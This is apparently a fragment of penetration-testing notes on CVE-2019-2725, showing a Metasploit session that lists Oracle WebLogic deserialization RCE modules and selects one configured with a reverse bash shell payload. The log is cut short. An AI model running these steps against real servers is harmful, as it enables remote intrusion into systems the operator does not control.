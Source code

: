 ![image-20220903213352928](./st2.assets/image-20220903213352928.png)



### CVE-2019-2725

#### MSF

```bash
msf6 > search weblogic_des

Matching Modules
================

   #  Name                                                          Disclosure Date  Rank       Check  Description
   -  ----                                                          ---------------  ----       -----  -----------
   0  exploit/multi/misc/weblogic_deserialize                       2018-04-17       manual     Yes    Oracle Weblogic Server Deserialization RCE
   1  exploit/multi/misc/weblogic_deserialize_asyncresponseservice  2019-04-23       excellent  Yes    Oracle Weblogic Server Deserialization RCE - AsyncResponseService
   2  exploit/multi/misc/weblogic_deserialize_marshalledobject      2016-07-19       manual     No     Oracle Weblogic Server Deserialization RCE - MarshalledObject
   3  exploit/multi/misc/weblogic_deserialize_unicastref            2017-01-25       excellent  No     Oracle Weblogic Server Deserialization RCE - RMI UnicastRef
   4  exploit/multi/misc/weblogic_deserialize_rawobject             2015-01-28       excellent  No     Oracle Weblogic Server Deserialization RCE - Raw Object
   5  exploit/multi/misc/weblogic_deserialize_badattrval            2020-01-15       normal     Yes    WebLogic Server Deserialization RCE - BadAttributeValueExpException
   6  exploit/multi/misc/weblogic_deserialize_badattr_extcomp       2020-04-30       normal     Yes    WebLogic Server Deserialization RCE BadAttributeValueExpException ExtComp


Interact with a module by name or index. For example info 6, use 6 or use exploit/multi/misc/weblogic_deserialize_badattr_extcomp

msf6 > use xploit/multi/misc/weblogic_deserialize_asyncresponseservice
[*] Using configured payload cmd/unix/reverse_bash

Matching Modules
```